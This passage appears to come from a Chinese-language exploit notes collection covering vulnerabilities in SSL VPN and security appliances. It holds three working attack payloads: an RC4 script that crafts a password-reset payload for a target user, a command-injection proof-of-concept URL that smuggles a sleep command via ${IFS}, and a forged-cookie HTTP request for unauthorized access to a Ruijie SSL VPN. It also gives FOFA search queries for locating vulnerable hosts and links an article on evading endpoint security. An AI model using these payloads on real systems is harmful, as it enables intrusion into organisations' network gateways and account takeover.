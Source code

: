         def myRC4(data, key):
            rc41= ARC4.new(key)
            encrypted =rc41.encrypt(data)
            return encrypted. encode('hex')

        def rc4_decrpt_hex(data, key):
            rc41= ARC4. new(key)
            return rc41. decrypt(a2b_hex(data))

        key= '20100720'
        data = r',username-TARGET_USERNAME, ip-127.0.0.1,grpid-1, pripsw-suiyi , newpsw=TARGET PASSWORD,'
        print myRC4(data, key)
        ```

- **RCE**
    - 影响版本
        * SSLM7.6.6(20181120)
        * SSLM7.6.6R1(20181225)

    - POC | Payload | exp
        ```
        https://x.com/por/checkurl.csp?url=http://127.0.0.1;sleep${IFS}5;&retry=0&timeout=1
        ```

**锐捷 SSL VPN**
- **锐捷 SSL VPN 越权访问漏洞**
    - FOFA: icon_hash="884334722" || title="Ruijie SSL VPN"
    - 相关文章
        - [锐捷SSL VPN 越权访问漏洞](https://mp.weixin.qq.com/s/acU0CNhyNkKl99o1Iv3N-w)
    - POC | Payload | exp
        ```
        GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
        Cookie: UserName=admin; SessionId=1; FirstVist=1; Skin=1; tunnel=1
        ```
        UserName 参数为已知用户名

## 威胁感知

**Sophos UTM**
- **CVE-2020-25223-Sophos UTM WebAdmin 远程命令执行漏洞**
    - 相关文章
        - [CVE-2020-25223-Sophos UTM WebAdmin 远程命令执行漏洞分析](https://mp.weixin.qq.com/s/y14JalXGMvlBwsUkrC3rnQ)

---

# 终端响应与检测

**相关文章**
- [绕过集中管控类安全软件小技巧](https://www.t00ls.net/articles-58584.html)

## 杀软
